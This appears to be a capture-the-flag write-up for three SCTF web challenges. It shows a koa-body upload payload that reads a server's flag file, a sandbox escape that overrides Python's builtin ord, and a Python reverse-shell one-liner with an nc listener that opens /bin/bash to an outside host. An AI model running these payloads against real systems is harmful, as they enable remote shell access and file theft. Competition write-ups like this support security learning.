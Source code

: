 # Web

## CloudDisk

- Score: 250
- Solvers: jankincai(100%)
- flag: SCTF{47cf9489d8832e44312dssxag6f88f45736e0e9c8}

```
https://github.com/dlau/koa-body/issues/75

http://120.79.1.217:7777/uploadfile

{
	"files": {
		"file": {
			"name": "jankincai",
			"path": "./flag"
		}
	}
}

Upload success ~, your fileId is here：3484b276cc6038b0378ddcf65880b04f

http://120.79.1.217:7777/downloadfile/3484b276cc6038b0378ddcf65880b04f
```

## pysandbox

- Score: 377
- Solvers: jankincai(70%), 850(30%)
- flags: SCTF{N0_p4renth3s1s_2_RCe_1s_1nt3r3stlng}

> 题解

1. 生成字符集

```python
ss = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

vlist = []

for v in ss:
    if v not in vlist:
        print(v * 50, end="")
        vlist.append(v)


```

2. 覆盖ord和设置字符集

```python
# 修改 authorization.username = 生成字符集
cmd = '__builtins__.__dict__[ord.__name__]=request.authorization.username.count'
```

3. 反弹shell

服务器：nc -lvvp port

```python
cmd = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

4. 获取flag

```bash
cat flag
```

## pysandbox2

- Score: 500
- Solvers: jankincai(100%)
- flags: SCTF{7ff31edadeadafc0f69d79fb4a36e7b7}

> 题解

1. 获取flag

```bash
# 前三步和pysandbox一样
cd /
./readflag
```